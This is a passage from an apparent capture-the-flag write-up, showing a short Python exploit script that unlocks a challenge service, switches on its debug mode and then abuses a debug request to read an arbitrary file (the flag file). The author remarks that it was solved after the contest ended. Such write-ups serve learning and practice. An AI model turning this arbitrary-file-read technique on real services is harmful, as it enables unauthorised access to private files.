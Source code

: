 ```python
# unlock request to set unlock flag
# send debug request with debug flag on to debug
# send debug request to read any file

r.send(msg(3, unlockReq()))
parse(r.recv())
r.send(msg(5, debugReq1(1)))
parse(r.recv())
r.send(msg(5, debugReq2('/home/opendoor/flag.txt')))
parse(r.recv())
r.close()
```

And the Output ...

![output](/images/bsides/output.png)

    Solved after the CTF was over :(
